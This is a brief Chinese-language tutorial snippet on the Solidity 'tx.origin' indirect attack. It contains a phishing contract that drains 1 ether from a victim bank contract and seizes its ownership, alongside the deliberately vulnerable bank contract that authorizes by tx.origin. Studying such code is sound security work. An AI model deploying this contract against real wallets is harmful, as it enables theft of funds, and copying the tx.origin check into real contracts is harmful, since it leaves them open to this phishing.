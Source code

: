 ### tx.origin 间接攻击

#### 原理:

1.通过调用的方式间接修改owner地址,并不是直接攻击合约

#### 代码:

```
 pragma solidity ^0.6.6;
  
 interface targetInterface {
 function transferTo(address payable to, uint amount)  payable external;
 function changeOwner(address newOwner) external;
 function kill() external;
 }
  
 contract PhishingBankOfEther {
  address payable attackerAddress;
    
  constructor() public {
     attackerAddress = msg.sender;
  }
    
  targetInterface bankInterface = targetInterface(ADDRESS);
 
  function test () payable public {
     bankInterface.transferTo(attackerAddress, 1 ether);
     bankInterface.changeOwner(attackerAddress);
  }
}


 pragma solidity ^0.6.6;
 
 contract BankOfEther {
    address owner;
    mapping (address =>uint) balances;
     
    constructor() public {
      owner = msg.sender;
    }
   
 function deposit() public payable{
   balances[msg.sender] = balances[msg.sender]+msg.value;     
  }
   
 function transferTo(address payable to, uint amount) public payable{
     require(tx.origin == owner);
     to.transfer(amount);
 }
   
 function changeOwner(address newOwner) public{
     require(tx.origin == owner);
     owner = newOwner;
                }
   
 function kill() public {
     require(msg.sender == owner);
     selfdestruct(msg.sender);
 }
}
```
